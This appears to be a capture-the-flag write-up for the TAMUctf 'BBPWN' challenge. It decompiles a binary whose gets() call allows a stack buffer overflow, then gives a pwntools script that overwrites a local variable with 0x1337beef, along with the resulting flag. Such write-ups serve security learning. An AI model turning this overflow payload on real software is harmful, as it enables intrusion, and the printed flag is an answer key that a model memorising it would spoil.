 # BBPWN

## Description

> Welcome to pwnland!
> 
> nc challenges.tamuctf.com 4252

The corresponding binary is given.

## Solution

Let's reverse the code using [Ghidra](https://ghidra-sre.org/).
```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  undefined4 uVar1;
  int in_GS_OFFSET;
  char local_38 [32];
  int local_18;
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  local_18 = 0;
  printf("Enter a string: ");
  fflush(stdout);
  gets(local_38);
  if (local_18 == 0x1337beef) {
    read_flag();
  }
  else {
    printf("\nThe string \"%s\" is lame.\n",local_38);
    fflush(stdout);
  }
  uVar1 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar1 = __stack_chk_fail_local();
  }
  return uVar1;
}
```

The ```gets``` function is dangerous and should not be used, it does not perform any check on the input length. We can therefore use a buffer overflow attack to overflow ```local38``` and write the correct value 0x1337beef in ```local_18```.

The payload is therefore 32 characters to fill ```local38```, then 0x1337beef (written in little endian '\xef\xbe\x37\x13') to fill ```local_18```.

This simple script does the job:
```python
from pwn import *

sh = remote('challenges.tamuctf.com', 4252)
print(sh.recvuntil("Enter a string:"))
sh.sendline(b'a'*32 + b'\xef\xbe\x37\x13')
sh.interactive()
```

Flag: gigem{0per4tion_skuld_74757474757275}
